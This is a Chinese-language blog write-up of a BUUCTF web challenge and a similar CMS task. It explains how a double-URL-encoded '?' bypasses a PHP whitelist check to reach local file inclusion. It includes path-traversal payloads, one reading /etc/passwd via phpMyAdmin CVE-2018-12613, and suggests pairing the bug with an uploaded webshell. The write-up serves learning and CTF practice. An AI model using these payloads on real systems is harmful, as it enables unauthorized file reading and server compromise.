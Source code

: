 ﻿# 一段遇到多次的代码


---
buuctf web方面的第一题，是这样一段代码
```
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```
做的时候就感觉莫名的眼熟，想了想好像之前做题也遇到过，在二面的时候给的cms中也出现过，就记录一下，或许这就是现cms中经常出现的一个漏洞呢~

P.S.(后来经搜索发现确实是CVE漏洞，编号为CVE-2018-12613)

这里把二面的代码也给贴出来
```
<?php
include './library/inc.php';

if (get_channel($id, 'id') === false) {
  alert_href($_lang['illegal'], './');
}
setUrlBack();

$c_main = $channel['c_main'];
// 获取相关信息
$channel_slist = channel_slist($channel['c_ifsub'] == 1 ? $channel['id'] : $channel['c_parent'], $channel['id']);
$current_channel_location = current_channel_location($channel['id'], $channel['id']);

// 获取上级信息
$channel_parent = $objChannel->getParent($channel['id']);
$channel_main = $objChannel->getMain($channel['id']);

// 获取子集列表
$channel_sub = $objChannel->getSon($channel['id']);

// 分页&列表
if (strpos($channel['c_cmodel'], '_list')) {
  include LIB_PATH . 'cls.page.php';
  $pager = new Page($channel['c_page']);
  $pager->handle($db->getOne("SELECT COUNT(id) FROM detail WHERE d_parent IN (" . $channel['c_sub'] . ")"));
  $list_pager = $db->getAll("SELECT * FROM detail WHERE d_parent IN (" . $channel['c_sub'] . ") ORDER BY d_order ASC,id DESC LIMIT " . $pager->page_start . "," . $pager->page_size);
}

include $t_path . $channel['c_cmodel'];

// 释放资源
unset($objChannel);
unset($channel);
unset($c_main);
unset($channel_slist);
unset($current_channel_location);
unset($channel_parent);

function checkFile(&$page)
{
  $whitelist = array("more"=>"more.php");
  if (! isset($page) || !is_string($page)) {
    echo "you can't see it";
    return false;
    }
 
  if (in_array($page, $whitelist)) {
    return true;
  }
 
  $_page = mb_substr(
    $page,
    0,
    mb_strpos($page . '?', '?')
  );
  if (in_array($_page, $whitelist)) {
    return true;
  }
  $_page = urldecode($page);
  $_page = mb_substr(
  $_page,
  0,
      mb_strpos($_page . '?', '?')
  );
  if (in_array($_page, $whitelist)) {
      return true;
  }
  echo "you can't see it";
  return false;
}

if (! empty($_REQUEST['file'])
    && is_string($_REQUEST['file'])
    && checkFile($_REQUEST['file'])
) {
    include $_REQUEST['file'];
    exit;
} 
```
自己博客不嫌字多，看该文件中定义的checkFile，几乎和上面那道题类似，都设置了读取白名单，进行了多个if的检验，并在检验返回true后去包含那个文件。

这里注意他的检验方法，先在参数后面加上一个?，再去截断第一个?前的内容进行白名单的比较；我们很容易想到构造
```
source.php?file=source.php?/../../../../../ffffllllaaaagggg
```
但其实这个payload是不行的（不知道为什么这个payload在那道题里适用...理论上来说是行不通的），因为它无法去读取到后面那个文件。这时候我们继续看if验证还有个先url解码，再加上一个?，再去对比第一个?前的内容进行白名单比较（为了防止后面还有传参），于是我们得到payload：
```
source.php?file=source.php%253f/../../../../../ffffllllaaaagggg
```
他会只截取到source.php拿去进行白名单比较。而后面去读取flag的时候涉及到一个文件包含中的问题，即如果前一个文件不存在的话。他会忽视前一个文件。例子如下，大家可以试一下：
这是用于包含的文件
```
<?php
    $filename  = $_GET['filename'];
    include($filename);
?>
```
然后再去用类似payload包含文件
```
http://localhost/baohan.php?filename=12.txt%253f/../cookie.txt
```
```
http://localhost/baohan.php?filename=12/../cookie.txt
```
```
http://localhost/baohan.php?filename=12.txtfdaohuithroh/../cookie.txt
```
%253f是?的二次编码

从上面的例子可以看到，这三个payload读取的都是cookie.txt这个文件，因为前面的12.txt%253f，12，12.txtfdaohuithroh并不存在，于是就被忽略掉了。
而这里我们为了通过验证
这时他包含的会是后一个文件，因为它将前一个文件视为了目录。
再说编码的问题，两次url编码，会在url传过去时一次解码。并在urldecode那里解码为?,就完成了隔断。然后就通过了验证，返回了true，去包含了我们想要的那个文件。

学到的东西，对那两个函数mb_substr,mb_strpos,有了更深的印象，了解到了上文提到的文件包含所包含的文件名的那个机制。还有../../../../../../这种遍历目录的方法。主要就这些。

P.S.（就像我上面补充的，这是个CVE，所以说下结合的方法，个人觉得还是应该配合的文件上传传上去的马进行利用。）

CVE-2018-12613 影响phpMyAdmin 4.8.0和4.8.1

payload:`/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd`